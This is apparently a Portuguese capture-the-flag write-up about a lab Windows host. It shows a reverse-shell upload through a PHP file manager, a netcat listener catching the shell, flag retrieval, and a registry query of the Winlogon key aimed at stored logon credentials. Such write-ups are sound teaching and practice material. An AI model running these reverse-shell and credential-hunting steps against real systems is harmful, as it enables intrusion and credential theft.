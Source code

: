 <pre>
Login ID:
Password:
Retype Password:
Last Name:
Middle Name:
First Name:
E-mail Address: 
</pre>

Voltando agora à página de login, loguei com sucesso. Na aba "File manager" encontrei um novo diretório "Personal Folder" que possuia a opção de upload de arquivos. Esse sim funcionava:

http://192.168.90.80:8080/PHP/index.php?tg=fileman&idx=displayAddFileForm&id=2&gr=N&path=

Para executar os arquivos upados, precisei procura-los nos diretórios enumerádos. A pista mais quente que eu tinha, era a pasta do "Germando" e foi por lá que encontrei o pponto de execução:

http://192.168.90.80:8080/PHP/filemanager/users/U2/

"U2" é o nosso usuário 2. Tendo encontrado o shellreverso que enviei, bastou clicar nele e logo me foi entregue um shell na porta previamente setada:


<pre><font color="#367BF0">┌──(</font><font color="#EC0101"><b>root💀aluno</b></font><font color="#367BF0">)-[</font><b>/home/aluno</b><font color="#367BF0">]</font>
<font color="#367BF0">└─</font><font color="#EC0101"><b>#</b></font> <font color="#5EBDAB">nc</font> <font color="#9755B3">-lvnp</font> 10025                                                                              
Listening on 0.0.0.0 10025
Connection received on 192.168.90.80 49298
SOCKET: Shell has connected! PID: 508
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

PS C:\wamp\www\PHP\fileManager\users\U2&gt; whoami
101ciaavl\jill

PS C:\wamp\www\PHP\fileManager\users\U2&gt; cd \users\jill\Desktop
PS C:\users\jill\Desktop&gt; dir


    Directory: C:\users\jill\Desktop


Mode                LastWriteTime     Length Name                              
----                -------------     ------ ----                              
-a---          7/1/2021   2:01 PM         37 flag.txt                          


PS C:\users\jill\Desktop&gt; type flag.txt
<font color="GOLD">CTF{a4d2b4cf7b096c2c734e6ababd71a916}</font>
</pre>

># Escalação Priv.

Informações de logon Windows nas Chaves. Comando:
<pre>C:\wamp\www\PHP\fileManager\users\U2&gt;reg query &quot;HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon&quot;
</pre>
Retorno:
<pre>HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon
    ReportBootOk    REG_SZ    1
    Shell    REG_SZ    explorer.exe
    PreCreateKnownFolders    REG_SZ    {A520A1A4-1780-4FF6-BD18-167343C5AF16}
    Userinit    REG_SZ    C:\Windows\system32\userinit.exe,
    VMApplet    REG_SZ    SystemPropertiesPerformance.exe /pagefile
    AutoRestartShell    REG_DWORD    0x1
    Background    REG_SZ    0 0 0
    CachedLogonsCount    REG_SZ    10
    DebugServerCommand    REG_SZ    no
    ForceUnlockLogon    REG_DWORD    0x0